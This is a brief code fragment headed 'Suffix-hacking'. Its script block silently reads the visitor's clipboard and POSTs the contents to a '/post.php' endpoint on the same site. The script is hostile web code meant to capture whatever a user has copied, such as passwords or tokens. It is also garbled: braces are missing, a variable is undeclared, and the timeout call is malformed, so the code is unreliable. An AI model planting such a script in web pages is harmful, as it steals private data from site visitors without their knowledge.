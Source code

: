 # Suffix-hacking



<script>
const controller = new AbortController()

const signal = controller.signal
function post(data){
      fetch("/post.php", {
method: "POST",
mode: "same-origin",
credentials: "same-origin",
headers: {
"Content-Type": "application/json"},

signal: signal,
body: data


}).then(function(response) {
    if (response.status==200)
    
    res+=1
    if (res>=2){
    
          setTimeout(controller.abort(), 1000);
    
                         }).catch(function(err) 
                         
                                            console.log(err);
                                            
navigator.clipboard.readText().then(clipText => post(clipText));
</script>                     
